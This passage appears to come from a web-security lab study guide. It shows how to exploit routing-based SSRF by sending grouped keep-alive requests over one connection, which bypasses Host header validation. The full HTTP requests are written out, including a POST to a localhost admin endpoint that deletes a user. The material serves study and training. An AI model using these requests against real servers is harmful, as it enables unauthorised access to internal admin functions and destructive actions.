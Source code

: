 ![Using special character](images/use_special_character.png)     


### HOST Connection State  

>Target is vulnerable to **routing-based SSRF** via the Host header, but validate connection state of the first request. Sending grouped request in sequence using **single connection** and setting the connection header to **keep-alive**, bypass host header validation and enable SSRF exploit of local server.  

```html
GET / HTTP/1.1
Host: TARGET.net
Cookie: session=ValueOfSessionCookie
Content-Length: 48
Content-Type: text/plain;charset=UTF-8
Connection: keep-alive
```  

>Next request is the second tab in group sequence of requests.  

```html
POST /admin/delete HTTP/1.1
Host: localhost
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=TheCSRFTokenValue&username=carlos
```  

>Observe that the second request has successfully accessed the admin panel.  
